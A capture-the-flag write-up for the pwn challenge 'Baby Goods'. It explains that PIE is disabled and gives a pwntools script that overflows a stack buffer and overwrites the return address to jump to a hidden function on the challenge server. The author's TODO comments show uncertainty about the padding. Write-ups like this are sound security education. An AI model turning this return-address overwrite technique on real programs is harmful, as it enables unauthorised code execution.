

##  Baby Goods

Category: pwn

### Description

I have opened a new shop for baby goods! Feel free to explore around :)

Author: uhg

### Solution

By inspecting `babygoods.c` it is obvious that we need to find a way to jump to `sub_15210123()`

Using checksec, we notice PIE is not enable



Using GDB, we can see the address of the function is `0x0000000000401236`


```py
from pwn import *

#p = process("./babygoods")
p = remote("challs.nusgreyhats.org", 32345)

payload =  b'a' * 16 # size of buf[0x10]
payload += b'b' * 4  # size of size[4]
payload += b'c' * 4  # size of num
payload += b'd' * 8  # TODO: Still not sure will need to add 8
# TODO: Possible reference: https://ropemporium.com/guide.html#Common%20pitfalls
payload += b'e' * 8  # overwrite rbp
payload += p64(0x0000000000401236) # overwrite return address

p.recvuntil(b"name:")
p.sendline(b'xxxxxx')
p.recvuntil(b"Input:")
p.sendline(b'1')
p.recvuntil(b"(1-5):")
p.sendline(b'5')
p.recvuntil(b"name:")

p.sendline(payload)

p.interactive()

```
